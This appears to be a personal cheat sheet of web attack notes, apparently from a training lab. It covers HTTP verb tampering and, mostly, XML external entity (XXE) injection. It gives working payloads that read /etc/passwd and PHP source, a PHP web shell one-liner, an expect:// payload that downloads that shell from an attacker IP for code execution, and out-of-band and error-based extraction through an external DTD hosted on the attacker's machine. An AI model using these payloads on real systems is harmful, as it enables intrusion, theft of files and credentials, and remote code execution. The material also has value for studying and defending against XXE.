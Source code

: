 # Web attacks: on of my favorites
## HTTP tampering 

Exploiting HTTP Verb Tampering vulnerabilities is usually a relatively straightforward process. We just need to try alternate HTTP methods to see how they are handled by the web server and the web application

## XXE

Creating a doctype for example :

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```
Note: In our example, the XML input in the HTTP request had no DTD being declared within the XML data itself, or being referenced externally, so we added a new DTD before defining our entity. If the DOCTYPE was already declared in the XML request, we would just add the ENTITY element to it.

and we add his, below the xml version and then we reference if with `&`

We can use it for reading a file 

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

we can look for ssh keys and so on ! 

or get the source code with php filter:

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

also it can be done for an RCE as follow 

    echo '<?php system($_REQUEST["cmd"]);?>' > shell.php

and then 
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

Note: The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.

## Advanced extraction with CDATA

in XML to extract data that will break XML content we use ` <![CDATA[ FILE_CONTENT ]]>`

One easy way to tackle this issue would be to define a begin internal entity with `<![CDATA[, an end internal entity with ]]>`, and then place our external entity file in between, and it should be considered as a CDATA element, as follows:


```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
After that, if we reference the &joined; entity, it should contain our escaped data. However, this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.
to bypass this we'll use this method on the Attack machine

    echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
    python3 -m http.server 8000

Then on the victim we reference the joined to our http server:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://10.10.16.27:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

PS: Not all the files work with this injection
## Error based XXE

Here we use a non-existent entity and try to see if we have an error.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
<name>a</name>
<tel></tel>
<email>&nonExistingEntity;</email>
<message>c</message>
</root>
```
we write in out host this 

    <!ENTITY % file SYSTEM "file:///etc/hosts">
    <!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">

and then we launch our http server and add this to the vitime payload

```xml
    <!DOCTYPE email [ 
    <!ENTITY % remote SYSTEM "http://10.10.16.27:8000/xxe.dtd">
    %remote;
    %error;
    ]>
```
